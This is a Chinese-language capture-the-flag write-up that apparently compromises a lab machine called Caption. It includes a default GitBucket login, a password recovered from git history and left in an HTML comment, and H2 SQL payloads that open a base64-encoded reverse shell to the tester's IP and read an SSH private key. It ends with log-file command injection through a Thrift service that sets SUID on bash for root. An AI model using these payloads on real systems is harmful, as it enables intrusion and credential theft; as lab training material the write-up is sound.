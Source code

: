 # Caption

> 本机 IP: 10.11.11.12
>
> 目标 IP: 10.11.11.11
>
> 参考 [wp](https://loghmariala.github.io/posts/Caption/)

```shell
$ nmap -sSVC -p- 10.11.11.11
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu
80/tcp   open  http       Werkzeug/3.0.1 Python/3.10.12
|_http-server-header: Werkzeug/3.0.1 Python/3.10.12
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions:
|     HTTP/1.1 301 Moved Permanently
|     content-length: 0
|     location: http://caption.htb
|_    connection: close
|_http-title: Caption Portal Login
8080/tcp open  http-proxy
|_http-title: GitBucket
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 5916
|     <!DOCTYPE html>
|     <html prefix="og: http://ogp.me/ns#" lang="en">
|     <head>
|     <meta charset="UTF-8" />
|     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=5.0" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <title>Error</title>
|     <meta property="og:title" content="Error" />
|     <meta property="og:type" content="object" />
|     <meta property="og:url" content="http://10.10.11.33:8080/nice%20ports%2C/Tri%6Eity.txt%2ebak" />
|     <meta property="og:image" content="http://10.10.11.33:8080/assets/common/images/gitbucket_ogp.png" />
...

$ vi /etc/host
[+] 10.10.11.33 caption.htb
```

访问 http://caption.htb/, 一个登录界面, 无法登录

访问 http://caption.htb:8080/, 为 GitBucket, 有两个仓库 Logservice 和 Caption-Portal; root:root 尝试登录成功

git clone 仓库 Caption-Portal, 查找 git hash 为 0e3ba... 提交中, config/haproxy/haproxy.cfg 有修改痕迹, 其中有删除字段:

<!-- ```cfg
userlist AuthUsers
        user margo insecure-password vFr&cS2#0!
``` -->

```cfg
userlist AuthUsers
        user margo insecure-password ⬛⬛⬛
```

使用 margo:⬛⬛⬛ 登录 http://caption.htb/ 成功, 但未发现利用点

Gitbucket 设置界面查找有 Database viewer 功能, 可执行 SQL 语句, 根据报错信息得知为 H2 数据库

<!-- 未执行, 看wp的

[H2 数据库漏洞](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2)

查看版本`SELECT H2VERSION() FROM DUAL` -->

```sql
-- Gitbacket 的 Database viewer 中执行SQL语句可远程执行命令

-- 这个好像不需要?
CREATE TABLE TEST (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL
);

-- 本机执行 nc -lvvp 2333

-- bash -i >& /dev/tcp/10.11.11.12/2333
-- base64 编码为
-- YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMS4xMS4xMi8yMzMzIDA+JjE=
CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMS4xMS4xMi8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}");';
```

或使用 [wp](https://loghmariala.github.io/posts/Caption/) 方法

```sql
-- 创建函数
CREATE ALIAS RUNEXEC AS $$
String shellexec(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";
}
$$;

-- id
CALL RUNEXEC('id')

-- 得到命令执行结果
org.h2.jdbc.JdbcSQLDataException:Data conversion error converting"uid=1000(margo) gid=1000(margo) groups=1000(margo)";SQL statement: CALL RUNEXEC('id'); [22018-199]

-- 获取ssh密钥
CALL RUNEXEC('cat /home/margo/.ssh/id_ecdsa')

org.h2.jdbc.JdbcSQLDataException:Data conversion error converting"-----BEGIN OPENSSH PRIVATE KEY----- ⬛⬛⬛ -----END OPENSSH PRIVATE KEY-----";SQL statement: CALL RUNEXEC('cat /home/margo/.ssh/id_ecdsa'); [22018-199]
```

本机创建文件`id_ecdsa`并将密钥复制其中

```shell
$ ssh -i id_ecdsa margo@caption.htb

margo@caption:~$ ls
... gitbucket.war user.txt
```

## Privilege Escalation

<!-- 以下均参考wp -->

使用 Thrift 客户端与目标计算机上运行的名为 LogService 的服务进行交互, 利用 LogService 中的漏洞来实现 RCE 并提权

克隆 Gitbucket 中的 Logservice 仓库, 使用 Thrift 从该文件生成 Python 客户端代码

```shell
margo@caption:~$ git clone http://caption.htb:8080/git/root/Logservice.git

margo@caption:~$ cd Logservice/

margo@caption:~/Logservice$ ls
... gen-go  log_service.thrift  server.go

margo@caption:~/Logservice$ thrift --gen py log_service.thrift

margo@caption:~/Logservice$ ls
... gen-py  log_service.thrift

# 在 /tmp 中创建恶意log文件
margo@caption:~/Logservice$ cd /tmp

margo@caption:~/Logservice$ vi malicious.log
[+] 127.0.0.1 "user-agent":"'; chmod +s /bin/bash #"
```

将文件夹 gen-py 复制到本机, 在 gen-py 下使用 python 脚本创建客户端

```python
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/malicious.log"

        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)

    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
    transport.close()

if __name__ == '__main__':
    main()
```

本机执行 python 脚本

```shell
margo@caption:~/Logservice$ ls -la /bin/bash
-rwsr-sr-x 1 root root ... /bin/bash

margo@caption:~/Logservice$ /bin/bash -p

bash-5.1# id
uid=1000(margo) gid=1000(margo) euid=0(root) egid=0(root) groups=0(root),1000(margo)

bash-5.1# whoami
root

bash-5.1# ls /root
... root.txt
```
